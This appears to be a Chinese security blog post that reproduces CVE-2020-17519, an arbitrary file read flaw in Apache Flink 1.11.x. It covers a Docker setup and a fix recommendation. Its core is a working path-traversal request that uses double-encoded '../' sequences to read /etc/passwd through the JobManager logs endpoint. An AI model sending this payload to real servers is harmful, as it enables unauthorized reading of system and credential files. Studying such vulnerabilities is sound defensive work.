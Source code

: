 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/ZKiD1EqlWHa6xvY3iKrM_Q)

**0x01 漏洞简介**  

![](https://mmbiz.qpic.cn/mmbiz_png/7D2JPvxqDTEHyrrhI0qs9DZ8uSXibRmb8Hvrgic3HRUgg6NASkKytkJ4JibD0OkGIkQhhAHgictX2icaUnnV9fsGTWg/640?wx_fmt=png)

Apache Flink 是一个开源流处理框架，具有强大的流处理和批处理功能。

Apache Flink 1.11.0 中引入的一项更改 (包括版本 1.11.1 和 1.11.2) 允许攻击者通过 JobManager 进程的 REST 接口读取 JobManager 本地文件系统上的任何文件。

**0x02 漏洞影响**

```
1.11.0
1.11.1
1.11.2
```

**0x03 环境搭建**

这里直接在 docker 环境下复现，因为它搭建环境太香了！更新 docker

```
git pull
```

![](https://mmbiz.qpic.cn/mmbiz_png/7D2JPvxqDTEHyrrhI0qs9DZ8uSXibRmb8NkpwzrlRhFksIPoZyCcNyoYsib4DTvYNjtWTrBrZYamS0MDss7KJGdA/640?wx_fmt=png)

更新完成后启动 docker 编译环境

```
docker-compose up -d
```

![](https://mmbiz.qpic.cn/mmbiz_png/7D2JPvxqDTEHyrrhI0qs9DZ8uSXibRmb8OtwoD1uV8C8C4ErcC7Z12CickAFKZFVgdic1M2tHmaeNXZsanPJHu8sg/640?wx_fmt=png)

访问 http://1.1.1.1:8081 如下说明环境已经起来了

![](https://mmbiz.qpic.cn/mmbiz_png/7D2JPvxqDTEHyrrhI0qs9DZ8uSXibRmb8adn4KKeMYYr4lRgwriceE7ibswon3YC9ktOa6oU91yjcNBJ6Q1B12S9g/640?wx_fmt=png)

0x04 漏洞复现

poc

```
/jobmanager/logs/..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252fetc%252fpasswd
```

![](https://mmbiz.qpic.cn/mmbiz_png/7D2JPvxqDTEHyrrhI0qs9DZ8uSXibRmb8liacwGT27NYjLxWfHdwxdUsv2apEeU9LJUVwJtExKgCK9L4yH2olBZQ/640?wx_fmt=png)  

![](https://mmbiz.qpic.cn/mmbiz_png/7D2JPvxqDTEHyrrhI0qs9DZ8uSXibRmb8PfnrpJwURPbPNqLNVRxlPthQDUUSSsKNibshIS8JPQUcicib0pRGqiaCZw/640?wx_fmt=png)  

0x05 修复建议  

所有用户升级到 Flink 1.11.3 或 1.12.0，下载链接为：

```
https://flink.apache.org/downloads.html
https://flink.apache.org/downloads.html
```

0x06 参考文章

don9sec  

```
https://mp.weixin.qq.com/s/Wtcm8AFM5HrPOZ1tA0oHMg
```

**【往期推荐】**  

[未授权访问漏洞汇总](http://mp.weixin.qq.com/s?__biz=MzI1NTM4ODIxMw==&mid=2247484804&idx=2&sn=519ae0a642c285df646907eedf7b2b3a&chksm=ea37fadedd4073c87f3bfa844d08479b2d9657c3102e169fb8f13eecba1626db9de67dd36d27&scene=21#wechat_redirect)

[【内网渗透】内网信息收集命令汇总](http://mp.weixin.qq.com/s?__biz=MzI1NTM4ODIxMw==&mid=2247485796&idx=1&sn=8e78cb0c7779307b1ae4bd1aac47c1f1&chksm=ea37f63edd407f2838e730cd958be213f995b7020ce1c5f96109216d52fa4c86780f3f34c194&scene=21#wechat_redirect)  

[【内网渗透】域内信息收集命令汇总](http://mp.weixin.qq.com/s?__biz=MzI1NTM4ODIxMw==&mid=2247485855&idx=1&sn=3730e1a1e851b299537db7f49050d483&chksm=ea37f6c5dd407fd353d848cbc5da09beee11bc41fb3482cc01d22cbc0bec7032a5e493a6bed7&scene=21#wechat_redirect)  

[记一次 HW 实战笔记 | 艰难的提权爬坑](http://mp.weixin.qq.com/s?__biz=MzI1NTM4ODIxMw==&mid=2247484991&idx=2&sn=5368b636aed77ce455a1e095c63651e4&chksm=ea37f965dd407073edbf27256c022645fe2c0bf8b57b38a6000e5aeb75733e10815a4028eb03&scene=21#wechat_redirect)

[【超详细】Microsoft Exchange 远程代码执行漏洞复现【CVE-2020-17144】](http://mp.weixin.qq.com/s?__biz=MzI1NTM4ODIxMw==&mid=2247485992&idx=1&sn=18741504243d11833aae7791f1acda25&chksm=ea37f572dd407c64894777bdf77e07bdfbb3ada0639ff3a19e9717e70f96b300ab437a8ed254&scene=21#wechat_redirect)

[【超详细】Fastjson1.2.24 反序列化漏洞复现](http://mp.weixin.qq.com/s?__biz=MzI1NTM4ODIxMw==&mid=2247484991&idx=1&sn=1178e571dcb60adb67f00e3837da69a3&chksm=ea37f965dd4070732b9bbfa2fe51a5fe9030e116983a84cd10657aec7a310b01090512439079&scene=21#wechat_redirect)

[【超详细】CVE-2020-14882 | Weblogic 未授权命令执行漏洞复现](http://mp.weixin.qq.com/s?__biz=MzI1NTM4ODIxMw==&mid=2247485550&idx=1&sn=921b100fd0a7cc183e92a5d3dd07185e&chksm=ea37f734dd407e22cfee57538d53a2d3f2ebb00014c8027d0b7b80591bcf30bc5647bfaf42f8&scene=21#wechat_redirect)  

[【奇淫巧技】如何成为一个合格的 “FOFA” 工程师](http://mp.weixin.qq.com/s?__biz=MzI1NTM4ODIxMw==&mid=2247485135&idx=1&sn=f872054b31429e244a6e56385698404a&chksm=ea37f995dd40708367700fc53cca4ce8cb490bc1fe23dd1f167d86c0d2014a0c03005af99b89&scene=21#wechat_redirect)
---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

_**走过路过的大佬们留个关注再走呗**_![](https://mmbiz.qpic.cn/mmbiz_png/7D2JPvxqDTEATexewVNVf8bbPg7wC3a3KR1oG1rokLzsfV9vUiaQK2nGDIbALKibe5yauhc4oxnzPXRp9cFsAg4Q/640?wx_fmt=png)

**往期文章有彩蛋哦****![](https://mmbiz.qpic.cn/mmbiz_png/7D2JPvxqDTHtVfEjbedItbDdJTEQ3F7vY8yuszc8WLjN9RmkgOG0Jp7QAfTxBMWU8Xe4Rlu2M7WjY0xea012OQ/640?wx_fmt=png)**

![](https://mmbiz.qpic.cn/mmbiz_png/7D2JPvxqDTECbvcv6VpkwD7BV8iaiaWcXbahhsa7k8bo1PKkLXXGlsyC6CbAmE3hhSBW5dG65xYuMmR7PQWoLSFA/640?wx_fmt=png)